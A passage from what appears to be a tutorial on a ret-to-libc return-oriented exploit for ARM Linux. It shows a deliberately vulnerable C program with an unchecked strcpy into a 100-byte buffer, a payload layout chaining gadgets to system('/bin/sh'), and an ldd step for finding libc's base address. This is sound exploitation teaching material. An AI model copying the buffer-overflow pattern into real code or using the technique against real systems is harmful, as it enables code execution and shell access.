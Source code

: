 Now, let's find the addresses of required parameters and gadgets first. Then we will build our payload.

## Vulnerable Program
We will use the following vulnerable program to exploit using `ret-to-libc`.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```
## Payload Structure
As we have 100 B buffer size, we will have the return address at starting at 105th position. So, we will fill the first 104 Bytes with any character or NOP sled. Here, the example payload looks like as follows:
```
initial payload = 104 B NOP/Char + 1st Gadget Address + R4 Value + PC value +...
```
Here, we will put the address of the 2nd gadget in PC and address of system() in R4.

Now, after we put address of 2nd address in PC, we will need only the value for $R0$. We will put the address of `/bin/sh` in $R0$ followed by a 4B junks (because of `[sp, #4]`).

Now, the payload is complete:
```
payload = 104 B NOP + 1st gadget Addr. + system() addr. + 2nd gadget Addr. + "JUNK" + /bin/sh addr.
```

## Find Addresses

### Find Base Address

Now, we need to find out the shared library dependency for a particular executable of a vulnerable program,

```
$ ldd ./overflow
	linux-vdso.so.1 (0x76ffd000)
	/usr/lib/arm-linux-gnueabihf/libarmmem.so (0x76fb8000)
	libc.so.6 => /lib/arm-linux-gnueabihf/libc.so.6 (0x76e79000)
	/lib/ld-linux-armhf.so.3 (0x76fce000)

```
